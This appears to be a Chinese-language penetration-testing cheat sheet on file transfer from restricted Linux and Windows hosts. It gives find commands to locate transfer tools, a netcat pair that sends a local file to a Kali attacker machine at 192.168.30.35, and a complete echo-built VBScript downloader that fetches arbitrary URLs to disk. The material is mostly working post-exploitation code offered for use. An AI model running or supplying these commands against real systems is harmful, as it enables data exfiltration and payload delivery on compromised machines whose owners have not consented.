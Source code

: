 ### Linux

**文章**
- [busybox docker 受限环境下回传文件](https://landgrey.me/blog/3/)

**查看语言/代码支持情况**
```bash
find / -name perl*
find / -name python*
find / -name gcc*
find / -name cc
```

**查找可利用于传输文件的命令**
```bash
find / -name wget
find / -name nc*
find / -name netcat*
find / -name tftp*
find / -name ftp
find / -name scp
```

**nc**
```bash
# 收
nc -nvlp 4444 > aaa
```
```bash
# 发
nc -nv 192.168.30.35 4444 </usr/share/aaa    # kali
```

### Win

**文章**
- [Windows文件下载执行的15种姿势](https://mp.weixin.qq.com/s/tINvBuhiZwz7MbA_sffapA)

**vbscript**

```vb
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo strFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
